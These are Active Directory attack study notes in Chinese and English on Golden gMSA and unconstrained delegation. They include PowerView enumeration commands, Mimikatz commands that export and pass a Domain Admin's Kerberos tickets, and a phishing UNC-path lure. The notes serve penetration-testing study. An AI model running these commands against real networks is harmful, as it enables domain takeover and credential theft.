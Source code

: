 • Once we compute the GKE for the associated KDS root key we can generate the password offline.（一旦我们为相关的KDS 根密钥计算了GKE，我们就可以离线生成密码。）

• Only privilege accounts such as Domain Admins, Enterprise Admins or SYSTEM can retrieve the KDS root key.（只有域管理员、Enterprise Admins或SYSTEM等特权帐户才能检索 KDS 根密钥。）

• Once the KDS root key is compromised we can’t protect the associated gMSAs accounts.（一旦 KDS 根密钥被泄露，我们就无法保护关联的 gMSA 帐户。）

• Golden gMSA can be used to retrieved the information of gMSA account, KDS root key and generate the password offline.（Golden gMSA 可用于检索gMSA 帐户信息、KDS 根密钥和离线生成密码）

# Delegation

两种委托：

- Unconstrained Delegation（无约束委派）：可以委派任何计算机的任何服务

- Constrained Delegation（约束委派）：只可以委派特定计算机的特定服务


## Unconstrained Delegation（无约束委派）

枚举

使用 PowerView枚举无约束委派的电脑
```
Get-DomainComputer -UnConstrained  
```

使用ActiveDirectory module
```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}  //无约束委派电脑


Get-ADUser -Filter {TrustedForDelegation -eq $True}   //无约束委派用户
```

一旦使得诸如DA这样的高权限用户访问无约束委派的计算机，可以使用下面命令导出DA的tgt
```
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

复用上面得到tgt，使用ptt获得DA权限
```
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

如何使得DA访问无约束委派的电脑？

有两种方法：

1. 是通过钓鱼邮件诱使DA访问带有unc路径的地址（```\\192.168.1.1\c$\any```）

2. Printer Bug


## Printer Bug

